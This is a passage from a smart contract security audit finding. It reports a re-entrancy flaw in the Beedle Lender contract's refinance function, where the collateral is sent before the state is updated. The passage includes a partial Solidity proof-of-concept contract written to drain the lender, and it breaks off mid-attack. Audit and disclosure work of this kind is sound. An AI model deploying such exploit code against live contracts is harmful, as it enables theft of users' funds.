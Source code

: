 ```solidity
            (bool status,) = to.call(abi.encodeWithSignature("tokensReceived(address,address,uint256)", from, to, amount));
        }
    }
}
 ```
This kind of token allows a re-entrancy attack in the `refinance` function. When the new `collateral` is less than the current loan collateral, the difference is sent to the borrower before updating the state.
```solidity
File: Lender.Sol

L668:	} else if (collateral < loan.collateral) {
		// transfer the collateral tokens from the contract to the borrower
		IERC20(loan.collateralToken).transfer(
			msg.sender,
			loan.collateral - collateral
		); // @audit - Re-entrancy can drain contract
	}
```
https://github.com/Cyfrin/2023-07-beedle/blob/658e046bda8b010a5b82d2d85e824f3823602d27/src/Lender.sol#L670


## Impact
### POC
An attacker can use the following exploit contract to drain the `lender` contract:
```solidity
File: Exploit1.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {WeirdToken} from "./WeirdToken.sol";
import {ERC20} from "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "../utils/Structs.sol";
import "../Lender.sol";

contract Exploit1  {
    Lender lender;
    address loanToken;
    address collateralToken;
    Refinance refinance;

    constructor(Lender _lender, address _loanToken, address _collateralToken) {
        lender = _lender;
        loanToken = _loanToken;
        collateralToken = _collateralToken;
    }

    function attack(bytes32 _poolId, uint256 _debt, uint256 _collateral, uint256 _loanId, uint256 _newCollateral) external {
        // [1] Borrow a new loan
        ERC20(collateralToken).approve(address(lender), _collateral);
        Borrow memory b = Borrow({
            poolId: _poolId,
            debt: _debt,
            collateral: _collateral
        });
        Borrow[] memory borrows = new Borrow[](1);
        borrows[0] = b;        
        lender.borrow(borrows);
        // [2] Refinance the loan with a lower amount of collateral
```
